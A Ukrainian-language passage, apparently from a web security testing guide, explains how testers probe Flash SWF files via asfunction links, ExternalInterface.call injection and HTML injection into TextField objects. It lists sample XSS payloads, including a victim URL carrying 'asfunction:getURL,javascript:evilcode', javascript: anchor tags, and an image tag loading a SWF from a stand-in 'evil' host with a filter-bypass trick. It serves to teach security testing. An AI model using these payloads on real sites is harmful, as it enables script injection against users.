 Використання asfunction

Ви можете використовувати спеціальний протокол asfunction, щоб змусити посилання виконувати функцію ActionScript у файлі SWF замість відкриття URL-адреси. До випуску функції Flash Player 9 r48 можна було використовувати для кожного методу, який має URL як аргумент. Після цього випуску функцію asfunction було обмежено для використання в текстовому полі HTML.

Це означає, що тестер може спробувати ввести:

asfunction:getURL,javascript:evilcode

у кожному небезпечному методі, наприклад:

loadMovie(_root.URL)

за запитом:

http://victim/file.swf?URL=asfunction:getURL,javascript:evilcode
Зовнішній інтерфейс

ExternalInterface.call — це статичний метод, запроваджений Adobe для покращення взаємодії програвача та браузера для ActionScript 2.0 і ActionScript 3.0.

З точки зору безпеки ним можна зловживати, якщо частину його аргументів можна контролювати:

flash.external.ExternalInterface.call(_root.callback);

схема атаки для такого роду вади може бути приблизно такою:

eval (злий код)

оскільки внутрішній JavaScript, який виконується браузером, буде чимось схожим на:

eval('try { __flash__toXML('+__root.callback+') ; } catch (e) { "<undefined/>"; }')

Впровадження HTML

Об’єкти TextField можуть відтворювати мінімальний HTML, установивши:

tf.html = правда
tf.htmlText = '<tag>текст</tag>'

Таким чином, якщо деяка частина тексту може контролюватися тестером, тег <a> або тег зображення можуть бути вставлені, що призведе до зміни графічного інтерфейсу користувача або XSS-атаки на браузер.

Деякі приклади атак з тегом <a>:

     Прямий XSS: <a href='javascript:alert(123)'>
     Виклик функції: <a href='asfunction:function,arg'>
     Виклик загальнодоступних функцій SWF: <a href='asfunction:_root.obj.function, arg'>
     Викликати рідну статику як функцію: <a href='asfunction:System.Security.allowDomain,evilhost'>

Також можна використовувати тег зображення:

<img src='http://evil/evil.swf'>

У цьому прикладі .swf необхідний для обходу внутрішнього фільтра Flash Player:

<img src='javascript:evilcode//.swf'>

З моменту випуску Flash Player 9.0.124.0 XSS більше не можна використовувати, але модифікація графічного інтерфейсу все одно може бути виконана.
